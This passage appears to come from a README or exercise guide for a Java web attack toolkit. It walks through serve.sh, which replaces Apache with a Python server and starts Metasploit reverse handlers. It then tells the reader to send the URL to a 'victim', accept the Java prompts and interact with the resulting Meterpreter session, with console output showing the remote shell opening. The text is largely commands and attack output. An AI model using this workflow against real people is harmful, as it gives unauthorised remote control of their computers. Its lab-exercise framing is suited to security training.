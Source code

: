 `serve.sh` automates these steps for you. It will stop the Apache web server if it is running, start up a lightweight Python HTTP server, and run `msfconsole` with the generated resource script to set up the payload listeners. It will take a minute or two to completely set up the payload listeners so please be patient.

Note: Since this shuts down Apache during the attack, you will be unable to access these intructions through the normal method. Please leave this page open without refreshing until you have completed the exercise and restarted Apache.

`/opt/java-web-attack#` **`./serve.sh`**

        Shutting down Apache...
         * Stopping web server apache2 *
        Starting python web server...
        Now starting payload listeners. Please be patient.
        [*] Starting the Metasploit Framework console...
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3000
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3001
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3002
        <<<snip>>>
        You may now surf to http://172.16.215.138/
        msf exploit(handler) >

Once you see the text **You may now surf to** you are all set. Visit the URL provided in your browser or send it to your victim. When you do, accept the Java prompts and you should see feeback in your console window saying that you have a new session.

        [*] Sending stage (770048 bytes) to 172.16.215.137
        [*] Meterpreter session 1 opened (172.16.215.138:3000 -> 172.16.215.137:1104)

You may interact with your session by using the session number shown in your own output. In this case, it is session number 1.

**`sessions -i 1`**

        [*] Starting interaction with 1...
        meterpreter >

Example 4: Stopping the Attack Server
-------------------------------------

To stop the Metasploit listeners and shut down the Python web server, type `exit` into the Metasploit console window. You may have to type it more than once if you were also in a meterpreter session.

Finally, you will need to restart Apache.

`/opt/java-web-attack#` **`sudo service apache2 start`**

Note: If this does not work, rebooting your machine will.

Example 5: Customizing the Payloads
-----------------------------------

There are a few ways to customize the payloads used by `weaponize.py`.
